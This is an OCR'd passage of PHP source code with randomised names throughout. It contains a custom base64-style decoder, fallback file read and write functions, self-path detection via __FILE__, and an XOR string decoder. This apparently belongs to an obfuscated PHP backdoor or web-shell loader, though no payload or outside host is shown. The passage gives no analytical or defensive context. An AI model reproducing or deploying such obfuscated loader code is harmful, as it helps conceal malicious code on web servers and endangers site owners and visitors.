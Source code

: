 ```PHP
                $exvpmz = $exvpmz . chr($qkplpbs);
            }
            if ($uovgupr != 64) {
                $exvpmz = $exvpmz . chr($altlvy);
            }
        } while ($fxffhl < strlen($uytczn));
        return $exvpmz;
    }

    if (!function_exists('file_put_contents'))
    {
        function file_put_contents($gnlmabhg, $hxgqukc, $gohjysrt = False)
        {
            $pxwcutl = $gohjysrt == 8 ? 'a' : 'w';
            $hzrhdgnp = @fopen($gnlmabhg, $pxwcutl);
            if ($hzrhdgnp === False)
            {
                return 0;
            }
            else
            {
                if (is_array($hxgqukc)) $hxgqukc = implode($hxgqukc);
                $ajhhwvnq = fwrite($hzrhdgnp, $hxgqukc);
                fclose($hzrhdgnp);
                return $ajhhwvnq;
            }
        }
    }

    if (!function_exists('file_get_contents'))
    {
        function file_get_contents($mcyjre)
        {
            $skcxhwyt = fopen($mcyjre, "r");
            $bnnulsb = fread($skcxhwyt, filesize($mcyjre));
            fclose($skcxhwyt);

            return $bnnulsb;
        }
    }
    function dbkboso()
    {
        return trim(preg_replace("/\(.*\$/", '', __FILE__));
    }

    function veyrrpc($vpfasf, $wyolccwj)
    {
        $rqlhqkbu = "";

        for ($fxffhl=0; $fxffhl<strlen($vpfasf);)
        {
            for ($jlamhp=0; $jlamhp<strlen($wyolccwj) && $fxffhl<strlen($vpfasf); $jlamhp++, $fxffhl++)
            {
                $rqlhqkbu .= chr(ord($vpfasf[$fxffhl]) ^ ord($wyolccwj[$jlamhp]));
            }
        }

        return $rqlhqkbu;
    }

    function umzklia($vpfasf, $wyolccwj)
    {
```